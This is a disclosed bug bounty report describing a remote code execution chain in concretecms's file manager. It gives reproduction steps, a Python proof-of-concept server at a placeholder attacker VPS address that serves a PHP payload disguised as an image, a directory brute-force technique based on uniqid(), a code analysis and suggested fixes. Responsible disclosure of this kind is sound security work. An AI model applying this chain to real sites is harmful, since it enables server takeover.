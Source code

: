 # A bypass of adding remote files in concrete5 FIlemanager leads to remote code execution

## Report Details
- **Report ID**: 1350444
- **URL**: https://hackerone.com/reports/1350444
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-09-24T13:37:15.447Z
- **Disclosed**: 2021-11-11T01:00:32.042Z

## Reporter
- **Username**: byc_404
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
Hi, I 'm currently testing the latest concretecms on my own pc and found some security problems of file manager.
Concretecms allows user to upload remote files via file manager.  With some techniques to bypass restriction  of this function, a evil user will be able to download arbitary php file into accessible file folder. Since the folder name is generated with `uniqid()`, bruteforcing 5-digits hex code can leads to the correct directory where our php file lies. Then you can just visit it to get RCE.

Privileges required: Administrator
Magic word for submitting the report: crayons

## Reproduce

* Login as a user with Administrator privileges.
* set up evil server: run `python3 server.py` on your remote VPS server. Here my python server is listening  at port 8877.

{F1459853}
* add following urls：The top evil link is to our webshell file `http://YOUR_VPS_IP:8877/byc.php`, following  multiple`http://YOUR_VPS_IP:8877/stuck` links( 20+ can assure the execution time).
{F1459871}

* wait 120 seconds for this process to send error. You can also see the log on your server.

{F1459875}

{F1459878}

* Check your website folder and find that the evil php script stays in a temp folder. You can directly access this file from browser.

(Although this directory name seems random, the name of it is actually generated by `uniqid()` with total length 13. The first 8 characters are actually the UTC timestamp of the time when you send request. So you can bruteforce the last 5 characters and access the exact folder where our file lies.)

{F1459887}

{F1459884}

## Code analysis

The source code below in `concrete/controllers/backend/file.php` shows the main logic of my exploit. The server takes multiple urls as input, validate each of them and then download it.The error during this process will be  collected and send in response at last. 
```php
            $this->checkRemoteURlsToImport($urls);
            $originalPage = $this->getImportOriginalPage();
            $fi = $this->app->make(Importer::class);
            $volatileDirectory = $this->app->make(VolatileDirectory::class);
            foreach ($urls as $url) {
                try {
                    $downloadedFile = $this->downloadRemoteURL($url, $volatileDirectory->getPath());
                    $fileVersion = $fi->import($downloadedFile, false, $replacingFile ?: $this->getDestinationFolder());
                    if (!$fileVersion instanceof FileVersionEntity) {
                        $errors->add($url . ': ' . $fi->getErrorMessage($fileVersion));
                    } else {
                        if ($originalPage !== null) {
                            $fileVersion->getFile()->setOriginalPage($originalPage->getCollectionID());
                        }
                        $importedFileVersions[] = $fileVersion;
                    }
                } catch (UserMessageException $x) {
                    $errors->add($x);
                }
            }
```
The `downloadRemoteURL` function somehow allows url path like `/byc.php`. So php file will be written into directory.

{F1460016}

However, the directory will be deleted by the `__destruct` function of `VolatileDirectory`, it seems impossible to race condition and access our php file before deleted.

{F1459990}

So as long as we trigger an error before `__destruct` is called, we can keep our php file in that temp directory with  enough time to bruteforce.

My idea is that, since the server has an execution time limit  of 120s. We can just submit enough urls since the function won't throw an error until all the urls are processed, that's why I use python server to sleep 10 second each time it visit `/stuck` in my poc.
```python
EXPLOIT="<?php phpinfo(); "
class MyServer(BaseHTTPRequestHandler):
    def do_GET(self):
        print(f'Current time: {datetime.utcnow().strftime("%Y-%m-%d %H:%M:%S")}')
        self.send_response(200)
        self.send_header("Content-type", "image/jpeg")
        self.end_headers()
        self.wfile.write(EXPLOIT.encode('utf-8'))
        if self.path == "/stuck":
            time.sleep(10)
```

So that's how I bypass the limit and successfully write a file into folder.

## Possible Fix Method

* Disallow php file extension when writing it , although it will be deleted soon
* do not use  `uniqid` to create directory under `/temp` cause most chars of it can be deduced by the current time. Use `md5(uniqid())` will make this exploit unable to bruteforce.

eg.
As it is shown above, the directory of my evil file lies is `volatile-0-614daecb71435`. Take the first 8 chars `614daecb` and execute python code:

```python
print(datetime.datetime.fromtimestamp(int('0x614daecb', 16), tz=datetime.timezone.utc))
#result: 2021-09-24 10:56:11+00:00
```
And you can check out the time when my server receives the first request: `2021-09-24 10:56:12` which is 1 second after the directory creates.
So user can easily get the time when directory creates. 

Concluding, anyone get access to admin user will be able to write arbitary files into brute-forceable directory which leads to Remote Code Execution.

Thanks,
 
Best regards.

## Impact

Remote Code Execution

## Attachments
- server.py
- capture_20210924183958857.bmp
- 419EA7E4-38F5-468a-9DB1-D6047D649F6C_edit_463550871289683.png
- capture_20210924185827102.bmp
- capture_20210924185941916.bmp
- capture_20210924190233359.bmp
- capture_20210924190414112.bmp
- capture_20210924210525694.bmp
- capture_20210924210347734.bmp
